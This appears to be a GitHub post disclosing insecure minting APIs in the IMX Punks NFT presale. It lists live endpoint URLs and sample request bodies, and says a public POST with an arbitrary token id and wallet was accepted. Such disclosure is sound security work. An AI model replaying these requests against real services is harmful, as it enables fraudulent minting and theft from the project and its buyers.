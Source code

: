 # IMX PUNK Presale Mint

So IMX Punk Presale Minting started on 6th Nov, 2021, soon after kick off they started having minting issues. ( https://mint.imxpunks.com/ )
Seem fishy as there website title was "React App", they forgot to change website title ?

There minting process exposed below.
All these finding made easy because there app.js was un minified and easy to read.

# API in Use
1. Whitelist Status Api - https://2mdkcs2l0l.execute-api.us-east-2.amazonaws.com/trans/transaction [ For presale wallet whitelist fetch ]
2. Mint Api - https://mint-api.imxpunks.com/v1/presale [ To trigger minting after sending payment]

# Findings.
I figured the process of presale minting, there dev implemented below steps, all in Frontend website javascript code.

1. GET whitelist status from Whitlist api ex. https://2mdkcs2l0l.execute-api.us-east-2.amazonaws.com/trans/transaction?walletAddress=0x470299a90c371b17d6dfc101cbc7c090c1555408
    Response
```
   {
       "isMinted":true,
       "tokenId":4860,
       "walletAddress":"0x470299a90c371b17d6dfc101cbc7c090c1555408"
    }
```
     isMinted :- looks like wallet minted the nft or not.
     tokenId :- seems they pre mapped nft token id to wallet address.
2. Send eth payment to an address ( 0xb569133ed518d1c3f19ad0af75312cf894cbac7c ).
3. Send mint instruction to minting api with below data 
     ```
    {
          "price": "0.035",
          "tokenId": [4860],
          "walletAddress": "0x470299a90c371b17d6dfc101cbc7c090c1555408"
     }
     ```
    
    **is it a good practice to accept tokenId in request body from front end?**
4. Patch Request to Whitlist api https://2mdkcs2l0l.execute-api.us-east-2.amazonaws.com/trans/transaction with below data, to update wallet has minted one nft.
     ```
     {
      "isMinted":true,
      "walletAddress":"0x470299a90c371b17d6dfc101cbc7c090c1555408"
     }
     ```

    **Is it a good practice to update minting status from front end?**
# Issues 

1. Seeing patch request is allowed publically, I checked Whitlist api for **DELETE, POST** then I tried POST Reqeust to whitlist api with below data
``` 
    { 
      "isMinted":true,
      "tokenId":[#any_nft_id],
      "walletAddress":"#any_wallet_address"
    }
```
And it worked, Rest you can think what happend. :D

2. Are they checking payment transcation, not sure they are not capturing it anywhere?


This post is just to aware Community about some issues and nothing about IMX Punks team. There are lot of cheap devlopers who does not know how to write protected apis.


